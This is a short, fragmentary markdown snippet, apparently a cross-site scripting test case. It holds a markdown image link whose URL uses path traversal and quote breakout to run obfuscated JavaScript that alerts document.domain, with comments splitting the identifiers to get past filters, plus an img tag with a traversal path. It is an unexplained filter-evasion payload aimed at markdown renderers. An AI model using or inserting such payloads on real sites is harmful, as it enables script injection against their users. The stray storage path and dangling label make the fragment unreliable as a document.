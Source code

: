 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="../../../../../../\r89shi/r89shi.github.io/blob/master/123.png" type="text/javascript">

